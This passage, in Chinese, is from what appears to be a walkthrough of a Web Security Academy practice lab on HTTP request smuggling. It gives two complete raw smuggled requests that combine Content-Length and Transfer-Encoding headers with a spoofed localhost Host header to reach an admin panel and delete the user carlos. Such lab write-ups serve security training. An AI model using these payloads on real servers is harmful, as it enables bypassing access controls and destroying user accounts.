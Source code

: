 [![](assets/1704418275-0f805d14d49ec4910911f885dfacb693.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155100-d669d868-aa0c-1.png)  
此时第二个数据包中看到只允许 local 访问

[![](assets/1704418275-33b86df6e599a9a11caae9b56f876683.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155119-e1808cba-aa0c-1.png)  
随后添加头部信息"Host: localhost"，修改后的请求数据包如下并请求两次：  
[![](assets/1704418275-2fb084ddcde8944cded96602d2d93f68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155201-fa4f1b44-aa0c-1.png)  
从上面可以看到这里由于第二个请求的主机头与第一个请求中走私的主机头冲突，从而导致请求被阻塞，随后发送以下请求两次以便将第二个请求的标头附加到走私的请求正文中：

```bash
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

[![](assets/1704418275-61c58da310921c1dbc8030973a4b0cb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155228-0ab0e922-aa0d-1.png)  
[![](assets/1704418275-1bc232d23a37194fccce835159564f56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155241-12ae5498-aa0d-1.png)  
现在我们可以访问管理面板了，随后我们直接调用接口来删除 carlos：

```bash
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

[![](assets/1704418275-8b5a010446e52b2591ef07acb81ba009.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155311-2485f9f0-aa0d-1.png)  
随后完成解题：  
[![](assets/1704418275-3544f2bdb35312fedf36b043e2655dc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155323-2b601864-aa0d-1.png)
